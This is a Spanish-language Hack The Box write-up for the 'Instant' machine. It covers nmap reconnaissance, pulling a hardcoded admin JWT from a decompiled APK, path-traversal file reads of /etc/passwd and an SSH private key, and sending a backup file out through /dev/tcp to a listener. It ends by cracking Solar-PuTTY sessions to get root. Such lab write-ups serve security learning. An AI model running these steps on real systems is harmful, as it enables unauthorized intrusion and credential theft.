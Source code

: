 ```yaml
---
title: Instant
description: Instant es una máquina de dificultad media que incluye ingeniería inversa de una aplicación móvil, explotación de endpoints de API y descifrado de hashes y archivos cifrados. Los jugadores analizarán un APK para extraer información confidencial y un token de autorización codificado. Posteriormente, explotarán un endpoint de API vulnerable a la lectura arbitraria de archivos. Finalmente, comprometerán completamente el sistema descifrando y analizando los datos de sesión cifrados de Solar-PuTTY.
date: 2024-12-14
toc: true
pin: false
image:
 path: /assets/img/htb-writeup-instant/instant_logo.png
categories:
  - Hack The Box
  - Machines
tags:
  - linux
  - hack the box
  - ssh
  - http
  - tcp
  - apk
  - api
  - data leaks
  - lfi
  - password attacks
  - information gathering
  - web analysis
  - vulnerability exploitation
  - privilege escalation

---
```

## Information Gathering

El análisis inicial comienza con el comando ping para confirmar la accesibilidad de la máquina objetivo en la red.

```terminal
/home/kali/Documents/htb/machines/instant:-$ ping -c 1 10.10.11.37
PING 10.10.11.37 (10.10.11.37) 56(84) bytes of data.
64 bytes from 10.10.11.37: icmp_seq=1 ttl=63 time=252 ms

--- 10.10.11.37 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 252.479/252.479/252.479/0.000 ms
```

Realizo un escaneo agresivo de puertos con nmap, lo que me permite identificar rápidamente todos los puertos abiertos.

```terminal
/home/kali/Documents/htb/machines/instant:-$ sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.37 -oG nmap1
Host: 10.10.11.37 ()	Status: Up
Host: 10.10.11.37 ()	Ports: 22/open/tcp//ssh///, 80/open/tcp//http///	Ignored State: closed (65533)
```

Profundizo en los puertos detectados, recopilando información detallada sobre los servicios y versiones en ejecución.

```terminal
/home/kali/Documents/htb/machines/instant:-$ sudo nmap -sCV -p22,80 -vvv 10.10.11.37 -oN nmap2
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 31:83:eb:9f:15:f8:40:a5:04:9c:cb:3f:f6:ec:49:76 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMM6fK04LJ4jNNL950Ft7YHPO9NKONYVCbau/+tQKoy3u7J9d8xw2sJaajQGLqTvyWMolbN3fKzp7t/s/ZMiZNo=
|   256 6f:66:03:47:0e:8a:e0:03:97:67:5b:41:cf:e2:c7:c7 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIL+zjgyGvnf4lMAlvdgVHlwHd+/U4NcThn1bx5/4DZYY
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.58
|_http-title: Did not follow redirect to http://instant.htb/
|_http-server-header: Apache/2.4.58 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: Host: instant.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
```terminal
/home/kali/Documents/htb/machines/instant:-$ echo '10.10.11.37\tinstant.htb' | sudo tee -a /etc/hosts
```
```terminal
/home/kali/Documents/htb/machines/instant:-$ whatweb instant.htb
http://instant.htb [200 OK] Apache[2.4.58], Bootstrap[4.0.0], Country[RESERVED][ZZ], Email[support@instant.htb], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.58 (Ubuntu)], IP[10.10.11.37], JQuery[3.2.1], Script, Title[Instant Wallet]
```

---
## Web Analysis

Encuentro una web sin mucho contenido. El botón principal, me permite descargar un APK.

![](assets/img/htb-writeup-instant/instant1_1.png)

Descomprimo el archivo con apktool.

```terminal
/home/kali/Documents/htb/machines/instant:-$ apktool d instant.apk
```
Busco referencias al dominio dentro del código descompilado, e identifico dos subdominios.

```
/home/kali/Documents/htb/machines/instant/instant:-$ grep -r "instant.htb"
smali/com/instantlabs/instant/TransactionActivity.smali:    const-string v0, "http://mywalletv1.instant.htb/api/v1/initiate/transaction"
smali/com/instantlabs/instant/RegisterActivity.smali:    const-string p4, "http://mywalletv1.instant.htb/api/v1/register"
smali/com/instantlabs/instant/ProfileActivity.smali:    const-string v7, "http://mywalletv1.instant.htb/api/v1/view/profile"
smali/com/instantlabs/instant/TransactionActivity$2.smali:    const-string v1, "http://mywalletv1.instant.htb/api/v1/confirm/pin"
smali/com/instantlabs/instant/LoginActivity.smali:    const-string v1, "http://mywalletv1.instant.htb/api/v1/login"
smali/com/instantlabs/instant/AdminActivities.smali:    const-string v2, "http://mywalletv1.instant.htb/api/v1/view/profile"
res/xml/network_security_config.xml:        <domain includeSubdomains="true">mywalletv1.instant.htb</domain>
res/xml/network_security_config.xml:        <domain includeSubdomains="true">swagger-ui.instant.htb</domain>
res/layout/activity_forgot_password.xml:        <TextView android:textSize="14.0sp" android:layout_width="fill_parent" android:layout_height="wrap_content" android:layout_margin="25.0dip" android:text="Please contact support@instant.htb to have your account recovered" android:fontFamily="sans-serif-condensed" android:textAlignment="center" />
```
```terminal
/home/kali/Documents/htb/machines/instant:-$ echo '10.10.11.37\tinstant.htb\tmywalletv1.instant.htb\tswagger-ui.instant.htb' | sudo tee -a /etc/hosts
```

![](assets/img/htb-writeup-instant/instant1_2.png)
![](assets/img/htb-writeup-instant/instant1_3.png)

---
## Vulnerability Exploitation

Al analizar los archivos descompilados, encuentro un JWT con privilegios elevados.

```terminal
/home/kali/Documents/htb/machines/instant/instant:-$ cat smali/com/instantlabs/instant/AdminActivities.smali
```

![](assets/img/htb-writeup-instant/instant1_4.png)
![](assets/img/htb-writeup-instant/instant1_5.png)

Utilizo el JWT y confirmo que permite acceder a información restringida.

```terminal
/home/kali/Documents/htb/machines/instant:-$ curl -s --path-as-is -X GET "http://swagger-ui.instant.htb/api/v1/admin/read/log?log_file_name=1.log" -H  "accept: application/json" -H  "Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwicm9sZSI6IkFkbWluIiwid2FsSWQiOiJmMGVjYTZlNS03ODNhLTQ3MWQtOWQ4Zi0wMTYyY2JjOTAwZGIiLCJleHAiOjMzMjU5MzAzNjU2fQ.v0qyyAqDSgyoNFHU7MgRQcDA0Bw99_8AEXKGtWZ6rYA" | jq
{
  "/home/shirohige/logs/1.log": [
    "This is a sample log testing\n"
  ],
  "Status": 201
}
```

Identifico que el parámetro `log_file_name` es vulnerable a LFI.

```terminal
/home/kali/Documents/htb/machines/instant:-$ curl -s --path-as-is -X GET "http://swagger-ui.instant.htb/api/v1/admin/read/log?log_file_name=..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd" -H  "accept: application/json" -H  "Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwicm9sZSI6IkFkbWluIiwid2FsSWQiOiJmMGVjYTZlNS03ODNhLTQ3MWQtOWQ4Zi0wMTYyY2JjOTAwZGIiLCJleHAiOjMzMjU5MzAzNjU2fQ.v0qyyAqDSgyoNFHU7MgRQcDA0Bw99_8AEXKGtWZ6rYA" | jq | grep bash

"root:x:0:0:root:/root:/bin/bash\n",
"shirohige:x:1001:1002:White Beard:/home/shirohige:/bin/bash\n",
```

Extraigo la clave `id_rsa` del usuario identificado previamente.

```terminal
/home/kali/Documents/htb/machines/instant:-$ curl -s --path-as-is -X GET "http://swagger-ui.instant.htb/api/v1/admin/read/log?log_file_name=..%2F..%2F..%2F..%2F..%2Fhome/shirohige/.ssh/id_rsa" -H  "accept: application/json" -H  "Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwicm9sZSI6IkFkbWluIiwid2FsSWQiOiJmMGVjYTZlNS03ODNhLTQ3MWQtOWQ4Zi0wMTYyY2JjOTAwZGIiLCJleHAiOjMzMjU5MzAzNjU2fQ.v0qyyAqDSgyoNFHU7MgRQcDA0Bw99_8AEXKGtWZ6rYA" | jq '.["/home/shirohige/logs/../../../../../home/shirohige/.ssh/id_rsa"][]' | tr -d '"' | sed 's/\\n//' > id_rsa
```

Configuro los permisos y accedo al sistema como `shirohige`.

```terminal
/home/kali/Documents/htb/machines/instant:-$ chmod 600 id_rsa
/home/kali/Documents/htb/machines/instant:-$ ssh shirohige@instant.htb -i id_rsa

shirohige@instant:~$ id
uid=1001(shirohige) gid=1002(shirohige) groups=1002(shirohige),1001(development)

shirohige@instant:~$ cat user.txt
```

---
## Privilege Escalation

Busco archivos pertenecientes al usuario `shirohige` y encuentro un directorio en `/opt/backups` con un archivo relacionado con Solar-PuTTY.

```terminal
shirohige@instant:~$ find / -user shirohige 2>/dev/null | grep -vE "shirohige|proc|cgroup|run"
/dev/pts/0
/opt/backups
/opt/backups/Solar-PuTTY
/opt/backups/Solar-PuTTY/sessions-backup.dat
```
```terminal
/home/kali/Documents/htb/machines/instant:-$ nc -lnvp 4444 > sessinos-backup.dat
	listening on [any] 4444 ...
```

Envío el archivo a mi máquina.

```terminal
shirohige@instant:~$ cat /opt/backups/Solar-PuTTY/sessions-backup.dat > /dev/tcp/10.10.16.79/4444
```
```terminal
	... connect to [10.10.16.79] from (UNKNOWN) [10.10.11.37] 57220
```

Descargo un script para descifrar las credenciales almacenadas en Solar-PuTTY, y lo ejecuto utilizando `rockyou.txt` como diccionario.

```terminal
/home/kali/Documents/htb/machines/instant:-$ wget https://gist.githubusercontent.com/xHacka/052e4b09d893398b04bf8aff5872d0d5/raw/8e76153cd2d115686a66408f6e2deff7d3740ecc/SolarPuttyDecrypt.py

/home/kali/Documents/htb/machines/instant:-$ python3 SolarPuttyDecrypt.py sessinos-backup.dat /usr/share/wordlists/rockyou.txt
[103] password='estrella'

{"Sessions":[{"Id":"066894ee-635c-4578-86d0-d36d4838115b","Ip":"10.10.11.37","Port":22,"ConnectionType":1,"SessionName":"Instant","Authentication":0,"CredentialsID":"452ed919-530e-419b-b721-da76cbe8ed04","AuthenticateScript":"00000000-0000-0000-0000-000000000000","LastTimeOpen":"0001-01-01T00:00:00","OpenCounter":1,"SerialLine":null,"Speed":0,"Color":"#FF176998","TelnetConnectionWaitSeconds":1,"LoggingEnabled":false,"RemoteDirectory":""}],"Credentials":[{"Id":"452ed919-530e-419b-b721-da76cbe8ed04","CredentialsName":"instant-root","Username":"root","Password":"12**24nzC!r0c%q12","PrivateKeyPath":"","Passphrase":"","PrivateKeyContent":null}],"AuthScript":[],"Groups":[],"Tunnels":[],"LogsFolderDestination":"C:\\ProgramData\\SolarWinds\\Logs\\Solar-PuTTY\\SessionLogs"}
```

Utilizo la contraseña obtenida para cambiar acceder al usuario `root`.

```terminal
shirohige@instant:~$ su root
Password: 12**24nzC!r0c%q12

root@instant:/home/shirohige# cat /root/root.txt
```

> <a href="https://www.hackthebox.com/achievement/machine/1521382/630" target="_blank">Instant Machine from Hack The Box has been Pwned</a>
{: .prompt-tip }
